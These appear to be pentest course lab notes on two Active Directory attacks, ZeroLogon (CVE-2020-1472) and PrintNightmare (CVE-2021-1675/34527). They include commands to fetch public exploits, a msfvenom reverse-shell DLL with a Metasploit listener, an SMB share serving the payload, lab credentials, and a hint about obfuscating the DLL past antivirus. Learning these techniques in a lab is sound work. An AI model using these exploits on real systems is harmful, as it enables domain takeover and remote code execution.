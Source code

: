 # AD - Additional Attacks

## ZeroLogon

➡️ [**ZeroLogon**](https://www.trendmicro.com/en_us/what-is/zerologon.html) is a vulnerability in the cryptography of Microsoft’s Netlogon process that allows an attack against Microsoft Active Directory domain controllers. Zerologon makes it possible for a hacker to impersonate any computer, including the root domain controller.

The **Zerologon vulnerability (CVE-2020-1472)** is a critical flaw in Microsoft's **Netlogon Remote Protocol (MS-NRPC)** that affects **Active Directory (AD) domain controllers**. Zerologon allows an unauthenticated attacker with network access to a domain controller to establish a vulnerable Netlogon session and eventually gain domain administrator privileges.

The vulnerability arises from a flaw in the **cryptographic implementation of the Netlogon protocol**, enabling attackers to impersonate any computer, including the root domain controller. By exploiting this, an attacker can effectively take over the entire domain.

This is a very dangerous attack, not worth the risk of running it in a pentest.

- [ZeroLogon testing script](https://github.com/SecuraBV/CVE-2020-1472)

```bash
mkdir -p $HOME/tcm/peh/ad-attacks/zerologon
cd $HOME/tcm/peh/ad-attacks/zerologon
git clone https://github.com/dirkjanm/CVE-2020-1472.git
wget https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/refs/heads/master/zerologon_tester.py

python3 zerologon_tester.py hydra-dc 192.168.31.90
```

![](4-active-directoryassets/2025-02-16_10-42-02_887.png)

- Proceed with the attack using [dirkjanm/CVE-2020-1472: PoC for Zerologon](https://github.com/dirkjanm/CVE-2020-1472) if the target is vulnerable.

---

## PrintNightmare

> - [Playing with PrintNightmare | 0xdf hacks stuff](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html)

➡️ The [**PrintNightmare**](https://www.huntress.com/blog/critical-vulnerability-printnightmare-exposes-windows-servers-to-remote-code-execution) vulnerability refers to critical security flaws in the Windows **Print Spooler service**, identified as **CVE-2021-1675** and **CVE-2021-34527**.

PrintNightmare is a critical **remote code execution** and **local privilege escalation** vulnerability that allows attackers to execute arbitrary code with **SYSTEM** privileges, enabling them to install programs, modify data, or create new accounts with full user rights. **Exploitation can occur remotely or locally**, even on fully patched systems, if certain registry settings are misconfigured. Microsoft has released patches to address these issues, however, systems with specific registry configurations may remain vulnerable.

```bash
# Impacket

# Scanning
rpcdump.py @192.168.31.90 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
# DC could be vulnerable

# Attacking
mkdir -p $HOME/tcm/peh/ad-attacks/printnightmare
cd $HOME/tcm/peh/ad-attacks/printnightmare
wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/refs/heads/main/CVE-2021-1675.py

# Open second terminal - Generate dll payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.31.131 LPORT=5555 -f dll > shell.dll
msfconfole
use multi/handler
set payload windows/x64/shell_reverse_tcp
set LPORT 5555
set LHOST 192.168.31.131

# Open third terminal - setup a file share
smbserver.py share `pwd` -smb2support

# Run attack
python3 CVE-2021-1675.py marvel.local/fcastle:Password1@192.168.31.90 '\\192.168.31.131\share\shell.dll'
```

- The attack was executed on a fully patched **Windows Server 2022**, and if it failed, it is most likely due to the applied security patches.
- The `dll` may need to be obfuscated to bypass AV detection.

```bash
# CVE-2021-1675.py output
[*] Connecting to ncacn_np:192.168.31.90[\PIPE\spoolss]
[+] Bind OK
[-] Failed to enumerate remote pDriverPath
RPRN SessionError: unknown error code: 0x8001011b
```

---

